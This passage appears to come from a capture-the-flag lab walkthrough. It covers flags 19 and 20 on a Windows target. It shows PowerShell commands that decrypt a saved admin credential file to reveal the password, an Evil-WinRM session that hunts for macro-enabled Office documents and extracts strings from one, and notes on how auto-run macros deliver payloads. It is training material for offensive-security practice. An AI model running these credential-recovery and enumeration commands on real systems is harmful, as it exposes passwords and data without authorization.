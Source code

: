 **🎯 FLAG 19 FOUND**: FLAG{P**********9} - PowerShell credential

**Decrypting PowerShell Credentials**:
```powershell
# If you're the same user who created it:
$cred = Import-Clixml C:\Users\Public\Documents\Credentials\admin.xml
$cred.GetNetworkCredential().Password
```

---

## Phase 8: Documents and Applications

### Understanding Document-Based Attacks

**Why Documents Matter**:
- Macros can execute code
- Metadata reveals information
- Users trust documents
- Often contain sensitive data

### FLAG 20: Macro Document

**Location**: Office document with macros  
**Difficulty**: Easy

```powershell
# Find macro-enabled documents
*Evil-WinRM* PS C:\> Get-ChildItem -Path C:\Users -Include "*.docm","*.xlsm" -Recurse -ErrorAction SilentlyContinue

    Directory: C:\Users\Public\Documents\Important

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/5/2025   10:15 AM          12453 Invoice.docm

# Extract strings from the document
*Evil-WinRM* PS C:\> $content = Get-Content C:\Users\Public\Documents\Important\Invoice.docm -Encoding Byte
*Evil-WinRM* PS C:\> [System.Text.Encoding]::ASCII.GetString($content) | Select-String "FLAG"

This document contains macros that run automatically
Macro Code: Sub AutoOpen()
' Flag: FLAG{G***********8}
End Sub
```

**🎯 FLAG 20 FOUND**: FLAG{G**********8} - Macro document

**Real-World Macro Threats**:
- AutoOpen/AutoExec runs on document open
- Can download and execute payloads
- Bypass many security controls
- Users often enable macros
